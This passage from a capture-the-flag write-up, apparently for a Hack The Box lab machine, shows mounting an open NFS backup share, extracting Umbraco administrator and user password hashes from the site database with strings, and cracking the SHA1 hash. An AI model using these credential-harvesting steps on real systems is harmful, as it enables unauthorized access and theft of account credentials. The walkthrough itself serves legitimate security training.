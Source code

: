 ```bash
finlay@kali:~$ showmount -e 10.10.10.180
Export list for 10.10.10.180:
/site_backups (everyone)
```
The backup is available to everyone, so we can mount it on our local machine.

```bash
finlay@kali:~$ mount -t nfs 10.10.10.180:/site_backups /mnt
```

In the App_Data folder we find a database file name Umbraco.sdf. If we use strings, we can extract the admin password hash.

```bash
finlay@kali:/mnt/App_Data$ strings Umbraco.sdf | head
Administratoradmindefaulten-US
Administratoradmindefaulten-USb22924d5-57de-468e-9df4-0961cf6aa30d
Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}en-USf8512f97-cab1-4a4b-a49f-0a2054c47a1d
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4f882f
smithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749-a054-27463ae58b8e
ssmithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749
ssmithssmith@htb.local8+xXICbPe7m5NQ22HfcGlg==RF9OLinww9rd2PmaKUpLteR6vesD2MtFaBKe1zL5SXA={"hashAlgorithm":"HMACSHA256"}ssmith@htb.localen-US3628acfb-a62c-4ab0-93f7-5ee9724c8d32
@{pv
qpkaj
```

The interesting part being:

```bash
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}
```

We can crack this hash with [crackstation.net](https://crackstation.net), or john if you prefer.

![crackstation](images/crackstation.png)

